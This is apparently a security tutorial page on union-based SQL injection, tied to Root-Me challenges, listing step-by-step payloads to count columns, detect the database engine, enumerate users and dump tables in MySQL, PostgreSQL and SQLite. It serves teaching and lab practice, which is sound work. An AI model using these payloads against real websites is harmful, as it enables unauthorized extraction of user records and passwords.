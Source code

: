 # Union-based SQLi

[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sql_injection_numeric](../../../../../_badges/rootme/web_server/sql_injection_numeric.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

<div class="row row-cols-lg-2"><div>

Union-based refer to using the UNION clause in the injected SQL to concatenate illegally fetched records to the usual results.

For instance, given a request returning the list of products, we could append to it the list of users and their passwords.

🙌 When injecting an union payloads, you usually only want to see the union results. Simply use a search query with no results.
</div><div>

⚠️ It can only be achieved both queries have the **same number of attributes+type** in the SELECT <small>(as per the property of the UNION clause)</small>.

```sql!
SELECT 1 UNION SELECT 1;          -- ok
SELECT 1, 2 UNION SELECT 1;       -- not ok
SELECT 1, 2 UNION SELECT 1, "2";  -- not ok (on a table)
SELECT 1, 2 UNION SELECT 1, NULL; -- ok
```
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

<div class="row row-cols-lg-2"><div>

#### Number of columns selected

The first step is to find how many columns there are in the SELECT. There are two popular ways, using `UNION` or `ORDER BY`.

Even if SQL errors are not displayed, if the results is "unexpected" <small>(ex: no results)</small>, we know that the request failed.

<details class="details-n">
<summary>Method 1: <code>UNION SELECT</code></summary>

```sql!
UNION SELECT NULL -- fail
UNION SELECT NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL, NULL -- OK
```
</details>

<details class="details-n">
<summary>Method 2: <code>ORDER BY</code></summary>

`ORDER BY` can take a number representing the $nth$ argument in the select. If you use an invalid $n$, then the request fails.

```sql!
ORDER BY 1 -- fail
ORDER BY 2 -- fail
ORDER BY 3 -- fail
ORDER BY 4 -- OK
```
</details>

In the example, we have 4 parameters.

<br>

#### Find the type of each column

The UNION will fails if a column in the first select has a different type in the second select. You should check the type of each column, by using `UNION SELECT` with value others than NULL.

```sql!
UNION SELECT 1, NULL, NULL, NULL -- KO
UNION SELECT "1", NULL, NULL, NULL -- OK
UNION SELECT "1", "1", NULL, NULL -- OK
...
```

<br>

#### Find which columns are displayed

Simply replace every `NULL` with a value, such as increasing numbers. If a value is not displayed, then skip it and work on other attributes.
</div><div>

#### Find the DBMS used

The second objective is to find the DBMS, and its version, just to ensure that any following query is valid in the DBMS language.

```sql!
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
-- see also: DMBS-specific functions, etc.
...
```

👉 You can fetch the user too with `user()` or enumerate users:

```sql!
UNION SELECT group_concat(user), NULL, NULL, NULL from mysql.user
```

<br>

#### Extract data

To extract data, you need to find the **database**, the **table**, and the **columns**. It's an extensive operation.

<details class="details-n">
<summary>MariaDB/MySQL/PostgreSQL</summary>

```sql!
-- list databases, mostly unused as we use the current database
UNION SELECT SCHEMA_NAME, NULL, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA
-- current database
UNION SELECT database(), NULL, NULL, NULL
-- table given 'database'
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
-- columns given 'table' and 'database'
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
-- dump
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
```
</details>

<details class="details-n">
<summary>SQLite</summary>

```sql!
-- table
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
-- columns given table
UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='<a table>'
-- dump
UNION SELECT group_concat(col1 || ":" || col2, '<br>'), NULL, NULL, NULL FROM table_name
```
</details>
</div></div>